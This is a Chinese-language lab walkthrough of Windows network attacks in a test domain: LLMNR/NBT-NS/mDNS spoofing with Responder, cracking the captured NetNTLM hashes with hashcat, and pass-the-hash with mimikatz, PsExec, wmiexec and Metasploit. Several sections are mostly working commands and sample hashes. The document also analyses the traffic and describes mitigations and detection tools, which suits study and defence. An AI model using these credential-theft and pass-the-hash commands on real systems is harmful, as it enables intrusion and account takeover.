



https://github.com/SpiderLabs/Responder

https://github.com/lgandx/Responder

该工具有向LLMNR，NBT-NS(NetBIOS Name Service)和MDNS请求进行欺骗的能力。

	LLMNR（Link-Local Multicast Name Resolution，链路本地多播名称解析）协议是一种基于DNS包格式的协议。它可以将主机名解析为IPv4和IPv6的IP地址。这样用户就可以直接使用主机名访问特定的主机和服务，而不用记忆对应的IP地址。Windows 操作系统从 Windows Vista开始就内嵌支持，Linux系统也通过systemd实现了此协议。该协议被广泛使用在Windows Vista/7/8/10操作系统中。它通过UDP 5355端口进行通信，且LLMNR支持IPV6。
	该协议的工作机制很简单。例如，计算机A和计算机B同处一个局域网中。当计算机A请求主机B时，先以广播形式发送一个包含请求的主机名的UDP包。主机B收到该UDP包后，以单播形式发送UDP的响应包给主机A。由于整个过程中，都是以UDP方式进行，主机A根本不能确认响应主机B是否为该主机名对应的主机。这就造成欺骗的可能。

	NBT协议即netbios over TCP/IP，在NetBIOS里，面向连接(tcp)和无连接(udp)通信均支持，它支持广播和复播。NBT(NetBIOS over TCP/IP) 使用137(NetBIOS名称服务UDP), 138(NetBIOS数据包服务UDP) and 139(NetBIOS会话服务tcp）来实现基于TCP/IP的NETBIOS网际互联。
	在Windows NT中SMB基于NBT实现。 而在Windows2000/xp/2003中，SMB除了基于NBT的实现，还有直接通过445端口实现。
	NetBIOS 的开放，意味着你的硬盘可能会在网络中成为共享。
	NetBIOS协议是由IBM公司开发，主要用于数十台计算机的小型局域网。Netbios (网络基本输入/输出系统）最初由 IBM，Sytek 作为API开发，使用户软件能使用局域网的资源。NetBIOS协议是一种在局域网上的程序可以使用的应用程序编程接口（API），为程序提供了请求低级服务的统一的命令集，作用是为了给局域网提供网络以及其他特殊功能，几乎所有的局域网都是在NetBIOS协议的基础上工作的。

	MDNS(多播DNS/Multicast DNS)协议将主机名解析为不包含本地名称服务器的小型网络中的IP地址。它是一种零配置服务，使用与单播域名系统 （DNS）基本相同的编程接口，数据包格式和操作语义。 虽然Stuart Cheshire将mDNS设计为独立协议，但它可以与标准DNS服务器协同工作。
	mDNS主要实现了在没有传统DNS服务器的情况下使局域网内的主机实现相互发现和通信，使用的端口为UDP 5353，MDNS也支持IPV6，遵从dns协议，使用现有的DNS信息结构、名语法和资源记录类型。实现局域网内的服务发现，查询，注册，DNS 作用是实现域名的解析，作用大概是一样的。
	据同事测试发现，禁用了llmnr后mdns也会被禁用。


假设我们已连接到Windows Active Directory环境，当网络中任何一台计算机尝试使用LLMNR或NBT-NS请求来解析目标计算机时，Responder假装为目标计算机。当受害者计算机尝试登录到攻击者计算机时，Responder就可以捕获受害者计算机用户的NTLMv2哈希。


NTLM是NT LAN Manager的缩写，这也说明了协议的来源。NTLM 是指 telnet 的一种验证身份方式，即问询/应答身份验证协议，是 Windows NT 早期版本的标准安全协议，Windows 2000 支持 NTLM 是为了保持向后兼容。Windows 2000内置三种基本安全协议之一。已经有了更新的NTLM v2以及Kerberos验证体系。

目前winserver 2008及以后的windows版本默认均是使用NetNTLMv2的，默认使用NTLMv1的有2003、XP这些机器。

NTLM凭证由**域名、用户名及在最初登录时所输入的加密口令**所组成。在DC(Domain Controller)上的安全服务管理将活动目录中的NTLM用户凭证的安全拷贝用于NTLM鉴别。

在默认情况下，Windows系统在尝试解析通过基于网络协议的名称解析请求时会使用以下优先级列表：

1.DNS

2.LLMNR

3.NBNS

**尽管DNS不直接作为整个攻击中的一部分而被利用，但由于它控制了哪些请求能够交给LLMNR或NBNS处理，所以，实际上DNS对LLMNR/NBNS欺骗的有效性具有很大的影响。基本上来说，如果名称请求与DNS中列出的记录相匹配，则客户端通常不会尝试通过LLMNR和NBNS来解析请求。**

## 靶场

同一C段。

默认情况下广播包不会跨网段，所以即使可以网络互通，开启responder监听，也获取不到其他网段的凭证。

## 姿势

### responder监听获取hash

**winserver 2008及以后的windows版本默认均是使用NetNTLMv2的，默认使用NTLMv1的有2003、XP这些机器。**

kali 窃取 Win2003 NTLM v1 hash：

	User name : Host name : LM resp : NTLM resp : NTLM Server Challenge

	Administrator::LEE-ZPNYOSNAWKC:26d62ffbbb95025f00000000000000000000000000000000:d56594a165b7315767b069ddaba6160dfb254d8e030e6e39:3dab0fcc9960d9ad


#### 暴力破解hash

这里靶机是win7 , responder上获取到的hash默认都会保存在 ```/usr/share/responder/logs/``` 文件夹下，且会根据IP、协议进行命名。

	hashcat -m 5600 ./HTTP-NTLMv2-10.10.40.52.txt ./top100.txt --force

也可以直接复制要解密的hash快速验证：

	hashcat -m 5600 Lee::LEE-PC:9cdb53369dfcc08c:E18322C5359831AE9F5A42E99CAAE6D7:0101000000000000C0653150DE09D201166BE67B579B8AD5000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D201060004000200000008003000300000000000000000000000003000008E9F459D6881702640BFCC02C27E7BB8CF4A04E0CA7B4D94C76DF0768A9700940A001000000000000000000000000000000000000900280063006900660073002F003100390032002E003100360038002E003200350035002E003100350033000000000000000000 ./top100.txt --force

已破解的密码位置： 

	vim ~/.hashcat/hashcat.potfile

查看已破解的密文：

	hashcat -m 5600 Lee::LEE-PC:9cdb53369dfcc08c:E18322C5359831AE9F5A42E99CAAE6D7:0101000000000000C0653150DE09D201166BE67B579B8AD5000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D201060004000200000008003000300000000000000000000000003000008E9F459D6881702640BFCC02C27E7BB8CF4A04E0CA7B4D94C76DF0768A9700940A001000000000000000000000000000000000000900280063006900660073002F003100390032002E003100360038002E003200350035002E003100350033000000000000000000  --show


-m 指定密文类型，5600对应的就是NetNTLMv2

./top100.txt 为密码字典文件

--force 为忽略警告


#### 通过破解网站破解NTLM v1 (需要固定challenge以及免费版需要 Force LM hashing downgrade )

转化工具地址：https://github.com/evilmog/ntlmv1-multi#ntlmv1-with-ssp

[破解网站 crack.sh](https://crack.sh/get-cracking/)

	python ntlmv1.py --ntlmv1 Administrator::LEE-RGO74QM1VVZ:ECD46F8255C828D600000000000000000000000000000000:6FD0FF1BC61858A5B128EA1C2F3F9E015F6DA2F460B63F7A:1122334455667788


```$NETLM$169a8ce30579c792$6FD0FF1BC61858A5B128EA1C2F3F9E015F6DA2F460B63F7A```，这个需要付费才能破解。

修改responder 参数：

	responder -I eth0 -rPv --lm


因为challenge一致，所以生成的hash也一致：



	python ntlmv1.py --ntlmv1 Administrator::LEE-RGO74QM1VVZ:5AB81439DE9EF16F358897D60A93EE450D232483598678FE:5AB81439DE9EF16F358897D60A93EE450D232483598678FE:1122334455667788

	To Crack with crack.sh use the following token
	NTHASH:5AB81439DE9EF16F358897D60A93EE450D232483598678FE


##### LM downgrade challenge crack(无NTLMSSP)流量分析

靶机： win2003 

1.交互过程


2.服务器返回伪造的challenge：


3.生成hash:


### 通过desktop.ini获取hash


### 通过错误域名获取hash

WPAD用于在windows中自动化的设置ie浏览器的代理.从Windows 2000开始该功能被默认开启. windows主机首先会向 dhcp服务器和dns服务器查询 wpad.<WindowDomainName> 的路径,如果找不到的化,会向本地局域网发送 LLMNR 和 NBT-NS查询.如果此时Responder 运行在这个网络中,他会响应这些请求并且会返回一个我们指定的 wpad.dat文件给目标浏览器。

#### 1.浏览器交互式

开启responder监听：

	responder -I eth0 -rPv -F

ping一个不存在的域名检测responder监听服务是否正常:


此步骤和正常ping包无区别。

在浏览器输入不存在的域名，应注意域名长度。

IE:


Chrome:


Firefox


**注意**：输入错误的用户名，密码也可以结束网页，后台抓到的hash破解之后为当时输入的密码，不是登陆密码，所以此方法仅理论可行。


### 访问网页获取hash

自建http server, 

index.html,src写为UNC路径格式(UNC为网络（主要指局域网）上资源的完整Windows 2000名称。)

	<!DOCTYPE html>
	<html>
		<head>
			<meta charset ="utf-8">
			
		</head>
	</html>

访问http 服务，拿到hash。

这种共享资源获取hash值方式仅IE测试通过。


### 其他

此外也可以通过文件包含等方式获取hash

在靶机chrome浏览器输入一个不存在的地址 ```\\192.168.255.153\aa```，此ip为受控主机的ip


在谷歌和火狐均测试通过，且不需要受控机器开启web服务

#### 某些win7 域控的情况

某些情况下，win7环境打开chrome即可获取到hash，适用于WPAD默认启用。


## NTLM v1 PTH

responder可以通过模拟正常的SMB协议从而获得受害机器的NTLMV2 hash值，NTLM v2不能直接应用于Pass The Hash攻击，只能通过暴力破解来获取明文密码。而攻击者获取NTLMv1 hash后，可以直接还原出NTLM HASH，这样的话就可以将NTLM HASH直接用于Pass The Hash攻击。


NTLM中继攻击:

攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。

https://www.anquanke.com/post/id/85004

[内网渗透之Responder与Net-NTML hash](https://www.jianshu.com/p/1b545a8b8b1e)


[windows本地提权（windows自身漏洞、Psexec、Pinjecter）](https://blog.csdn.net/leesir98/article/details/99708300)

## PTH

### PTH 原理


[Pass the hash](https://en.wikipedia.org/wiki/Pass_the_hash)

利用条件：

一、workgroup环境：

PTH 用户名密码都要相同

二、域环境

1.被pth攻击的计算机未打补丁(KB2871997)

2.拿到一台域成员主机并且拿到**管理员组的域用户**的NTLM

3.对方主机存在相同账号并且是管理员组成员

### 复现

域环境攻击机  win2003 10.10.40.100 (win2003-1)

域环境靶机   win2003 10.10.40.90 (win2003-2)


攻击机执行(需要管理员权限)：

获取密码hash:

	privilege::debug
	sekurlsa::logonpasswords

复制hash，进行workgroup PTH攻击(这里domain我乱填的，经测试，ok):

	sekurlsa::pth /user:administrator /domain:testtesttest /ntlm:579110c49145015c47ecd267657d3174

在弹出的cmd输入：

	dir \\10.10.40.90\c$

经验证不需输入密码读取到了 win2003-2 的文件目录。


通过查看共享检查PTH是否成功,出现如下提示表示已成功：

	at \\ip


域用户PTH需要需用户在域管理员组，查看域用户所在组，发现是普通域用户，无法PTH(**这种情况想要pth见后面**)：

	net user tony /domain


PTH 之前作为对比：


也可以直接调用cmd:

	PsExec.exe -accepteula \\192.168.255.165 -s cmd.exe


**wmiexec.exe pth:**

https://github.com/maaaaz/impacket-examples-windows

	wmiexec.exe -hashes :579110c49145015c47ecd267657d3174 ./administrator@10.10.40.100
	
	. 表示本地用户组


systeminfo 查看是否打了相关补丁。

**普通域用户非域管理员组如何PTH？**

**非域管理员组域用户必须在本地管理员组里面**

	net localgroup administrators tony /add




**攻击机的tony未添加到本地管理员组，靶机的tony在本地管理员组，这种情况即可攻击成功。**

这时检查 ```net user tony /domain``` 结果跟原来一样，此命令只能判断用户是否在域管组。


应该用**```net localgroup administrators```** 命令检查是否在本地管理员组。

	sekurlsa::pth /user:tony /domain:LMRSEC /ntlm:NTLMhash

pth成功！


此种情况 wmiexec.exe 非管理员组域用户 pth未成功(仅mimikatz 成功)：


#### mimikatz PTH 流量简析

pcap为 ```PTH win2003 dir(miniest) .pcap```

域内mimikatz攻击机： win2003 10.10.40.100
域内靶机：           win2003 10.10.40.90 

前面是正常的 net-NTLM v1 协商流量：


tree 节点显示了前面访问的UNC路径：


执行目录查看时主要的特征在这个包，可见具有一个 ```Subcommand: FIND_FIRST2``` 子命令节点。


命令的返回值，文件夹下的文件及其属性在这里都可以找到。


PTH fail 的流量:


#### msf pth 流量分析

workgroup环境： 攻击机： kali msf 10.10.40.99

靶机： 10.10.40.90

MSF利用 ```exploit/windows/smb/psexec``` 模块进行远程登录(哈希传递攻击)


创建了一个8位随机的大小写混合的英文名称的exe

调用了powershell进程，```System32\WindowsPowerShell\v1.0\powershell.exe```


字面意思是上传exe，执行exe，再删除exe

**但使用 工具 LastActivityView 并未发现这个进程执行痕迹。 没有搞清楚是否是自动清理了痕迹。**


## 中继攻击

NTLM中继攻击，相当于是中间人攻击，攻击者获取高权限的主机的hash，然后将hash转发给低权限主机并执行命令。而作为中继的机器必须要有域管理员权限或本地管理员权限。

这里就是抓取域控的hash，然后执行命令得到域内主机的信息。

查看responder配置文件：


	/usr/share/responder/Responder.conf
	/etc/responder/Responder.conf

修改Responder.conf，不启动SMB和HTTP，然后启动Responder


### 配置域控服务器

win2003,

开始-设置-控制面板-添加删除程序”，然后再点击“添加/删除Windows组件”,找到“网络服务”


我这里选择安装的是 DHCP、 TCP/IP 和 DNS 服务。

#### win2003 加入域

1.修改网络配置：


2.右击计算机，在计算机名，点击**更改**，选择域并添加域名重新启动。


输入一个有加入该域权限的用户名和密码(填入域控机提前设置好的成员用户名、密码)：


重新登录选择刚刚添加的域登陆。


加入域前：


加入域后：


## NTLM hash 模拟生成及充分理解 

	admin -> hex(16进制编码) = 61646d696e
	61646d696e -> Unicode(即在每个字节之后添加0x00) = 610064006d0069006e00
	610064006d0069006e00 -> MD4 = 209c6174da490caeb422f3fa5a7ae634
	

	print("admin".encode('utf-16').hex())   # fffe610064006d0069006e00
	print("admin".encode('utf-16le').hex())  #    610064006d0069006e00
	print("admin".encode('utf-16be').hex())  #    00610064006d0069006e

	print(hashlib.new('md4','admin'.encode('utf-16le')).hexdigest()) #209c6174da490caeb422f3fa5a7ae634

使用 mimikatz 验证(需要以管理员权限运行):

	privilege::debug
	sekurlsa::logonpasswords


**在渗透测试中，通常可从Windows系统中的SAM文件和域控的NTDS.dit文件中获得所有用户的hash，通过Mimikatz读取lsass.exe进程能获得已登录用户的NTLM hash**

Windows Vista和Windows Server 2008以前的系统还会使用LM hash

自Windows Vista和Windows Server 2008开始,Windows取消LM hash

但某些工具的参数需要填写固定格式LM hash:NT hash，可以将LM hash填0(LM hash可以为任意值)，即 00000000000000000000000000000000:NT hash

### 认证过程理解

获取server 随机生成的Challenge:

获得客户端使用本地保存的NTLM hash加密后的Challenge:

Response数据为:

	9a3f509f6350170daeca2bb66d1b07a80101000000000000c0653150de09d2014965a241e813e96a000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800c0653150de09d2010600040002000000080030003000000000000000000000000030000016d70f6663026d55eaaa5d9eff786793a7a86a0d0a0493596efe7487a1709c260a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003200350035002e003100350033000000000000000000


NTLMv2的格式为：

username::domain:challenge:HMAC-MD5:blob


HMAC-MD5对应数据包中的NTProofStr,blob对应数据包中Response去掉NTProofStr的后半部分


## 日志查看

原生支持：


	{"timestamp":"2020-12-15T13:43:45.975901+0800","flow_id":881431661345296,"pcap_cnt":13,"event_type":"smb","src_ip":"192.168.255.155","src_port":1136,"dest_ip":"192.168.255.153","dest_port":139,"proto":"TCP","smb":{"id":2,"dialect":"NT LM 0.12","command":"SMB1_COMMAND_SESSION_SETUP_ANDX","status":"STATUS_MORE_PROCESSING_REQUIRED","status_code":"0xc0000016","session_id":56673,"tree_id":0,"request":{"native_os":"Windows Server 2003 3790 Service Pack 1","native_lm":""},"response":{"native_os":"Windows Server 2003 3790 Service Pack 2","native_lm":"Windows Server 2003 5.2"}},"pcap_filename":".\/responder.pcap"}
	
	{"timestamp":"2020-12-15T13:43:46.005489+0800","flow_id":881431661345296,"pcap_cnt":16,"event_type":"smb","src_ip":"192.168.255.155","src_port":1136,"dest_ip":"192.168.255.153","dest_port":139,"proto":"TCP","smb":{"id":3,"dialect":"NT LM 0.12","command":"SMB1_COMMAND_SESSION_SETUP_ANDX","status":"3221225586","status_code":"0xc0000072","session_id":56673,"tree_id":0,"ntlmssp":{"domain":"LEE-ZPNYOSNAWKC","user":"Administrator","host":"LEE-ZPNYOSNAWKC"},"request":{"native_os":"Windows Server 2003 3790 Service Pack 1","native_lm":""},"response":{"native_os":"","native_lm":""}},"pcap_filename":".\/responder.pcap"}

## 缓解措施

1.禁用NetBIOS服务

在《网络连接》中右击对应网卡选择属性，然后依次点击如下图所示：


2.禁用LLMNR

win+R键打开运行，输入“gpedit.msc”:


### 蓝队检测内网欺骗

主要还是通过使用NBNS或者LLMNR协议，向多个随机主机名发起一个广播行为，如果多个回应均为同一IP地址就会产生警告。

1.[Conveigh](https://github.com/Kevin-Robertson/Conveigh)

正常情况：


存在异常欺骗情况：


2.[VindicateTool](https://github.com/Rushyo/VindicateTool/tree/master/ReleaseBinaries)



## 后记

**在内网部署蜜罐或者流量设备可以有效检测 LLMNR/NBNS/mDNS Spoofing 行为。**

在域内机器安装软件需要切换右键，以域管理员身份运行，才可安装。


域管理员可以登录域内任意主机。

域管理员登录主机，以win 2003为例，系统-属性-选择远程用户-检查名称

注意一定要使用反斜杠(如```lmrsec\tony```)，否则无法检查出域用户名。


## 参考资料

[The NTLM Authentication Protocol and Security Support Provider](http://davenport.sourceforge.net/ntlm.html)

[**NTLM官方文档的翻译--香山**](https://github.com/rootclay/NTLM-SSP/blob/master/SUMMARY.md)

[NBNS和LLMNR](https://www.cnblogs.com/mrhonest/p/13391194.html)

[netbios名称解析](https://blog.csdn.net/shienquan/article/details/52383421)

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/)

[**简述工作组环境和域环境NTLM认证区别**](https://www.cnblogs.com/0d4y/p/12805112.html)

[Inveigh](https://github.com/Kevin-Robertson/Inveigh)

[关于IPC和PTH用户权限问题](https://ares-x.com/2020/03/10/%E5%85%B3%E4%BA%8EIPC%E5%92%8CPTH%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90%E9%97%AE%E9%A2%98/)

[KB22871997是否真的能防御PTH攻击](https://www.freebuf.com/articles/system/220473.html)

